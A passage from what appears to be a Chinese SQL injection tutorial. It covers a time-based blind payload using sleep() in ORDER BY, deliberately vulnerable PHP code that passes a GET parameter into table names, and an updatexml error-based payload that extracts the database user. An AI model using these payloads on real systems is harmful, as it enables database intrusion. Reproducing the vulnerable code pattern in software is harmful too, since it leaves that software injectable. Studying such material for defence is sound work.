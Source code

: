 不推荐，因为每条数据都会执行延时，**能用其他方法就不使用延时**。 
`order by IF(1,sleep(3),0);`
![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikg2q8tjaj30vo09mdgg.jpg)
两条数据延时了6秒

## 1.9 表名可控注入

### 1.9.1 表名不完全可控且DESC的表名含有identifier quote,SELECT的表名不含identifier quote

```php
mysql_connect("localhost","root","root");
mysql_query("use b2cshop");
$table = $_GET['table'];
mysql_query("desc `shop_{$table}`") or die("DESC 出错:".mysql_error());
$sql = "select * from shop_{$table} where 1=1";
echo $sql;
echo "<br><br><br><br><br><br><br>";
var_dump(mysql_fetch_array(mysql_query("$sql")));
echo mysql_error();
```

![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikgj2pmt2j317i082jtc.jpg)
shop_users 后面的两个``,做了shop_users 表的别名,所以无影响。
这时候desc的语句为,

```sql
desc `shop_users` `where updatexml(1,concat(0x5e24,(select user()),0x5e24),1)#`
```

### 1.9.2 表名不完全可控且DESC的表名不含identifier quote,SELECT的表名含有identifier quote

```php
mysql_connect("localhost","root","root");
mysql_query("use b2cshop");
$table = $_GET['table'];
mysql_query("desc shop_{$table}") or die("DESC 出错:".mysql_error());
$sql = "select * from `shop_{$table}` where 1=1";
echo $sql;
echo "<br><br><br><br><br><br><br>";
var_dump(mysql_fetch_array(mysql_query("$sql")));
echo mysql_error();
```

![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikgl209syj31540i4tca.jpg)

## 1.10 无列明注入

### 1.10.1 别名
